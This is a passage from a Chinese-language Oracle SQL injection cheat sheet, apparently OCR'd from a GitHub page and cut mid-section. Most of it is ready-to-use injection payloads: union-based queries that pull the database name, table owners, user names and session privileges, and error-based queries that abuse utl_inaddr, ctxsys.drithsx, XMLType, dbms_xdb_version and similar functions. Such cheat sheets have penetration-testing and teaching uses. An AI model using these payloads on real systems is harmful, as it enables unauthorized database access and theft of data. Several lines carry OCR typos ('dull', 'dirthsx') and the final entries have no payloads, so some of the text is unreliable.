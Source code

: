 拼接：
`' union select null,(select column_1||','||column_2||','||column_3 from table_1 where rownum=1),null from dual -- 拼接多个字段用到的连接符号是 "||"。在 Oracle 中，concat() 函数只能连接两个字符串。`

**Other 1.**：获取当前数据库名：
`' union select null,(select sys.database_name from dull),null from dual --`

**Other 2.**：爆数据库名：
`' union select null,(select DISTINCT owner from all_tables where rownum=1),null from dual --`

**Other 3.**：获取当前用户名：
`' union select null,(select user from dull),null from dual --`

**Other 4.**：爆用户名：
`' union select null,(select username from all_users where rownum=1),null from dual --`
`' union select null,(select user from sys.user$ where rownum=1),null from dual -- 需要高权限。`
**Other 5.**：查看权限：
`' union select null,(select * from session_privs where rownum=1),null from dual --`

> 参考链接：http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

---

### **三、报错注入**

如果发现了数据库报错信息，可以优先选择报错注入。不同于 mysql 可以直接用函数进行报错，Oracle 和 Mssql 类似，需要使用 1 = [报错语句]、 1 > [报错语句] 等比较运算符。

常用函数：

**utl_inaddr.get_host_name()**
`' and 1=utl_inaddr.get_host_name((select user from dual))-- `

**ctxsys.drithsx.sn()**
`' and 1=ctxsys.dirthsx.sn(1,(select user from dual))-- `

**XMLType()**
`' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null-- `

> 注：1 = [报错语句] 和 [报错语句] is not null 均可。

**dbms_xdb_version.makeversioned()**
`' and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null-- `

**dbms_xdb_version.checkin()**
`' and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null-- `

**dbms_xdb_version.uncheckout()**
`' and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null-- `

**dbms_utility.sqlid_to_sqlhash()**
`' and (SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null-- `

**ordsys.ord_dicom.getmappingxpath()**
`' and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user)-- `

**dbms_xmltranslations.extractxliff**

**dbms_streams.get_information**
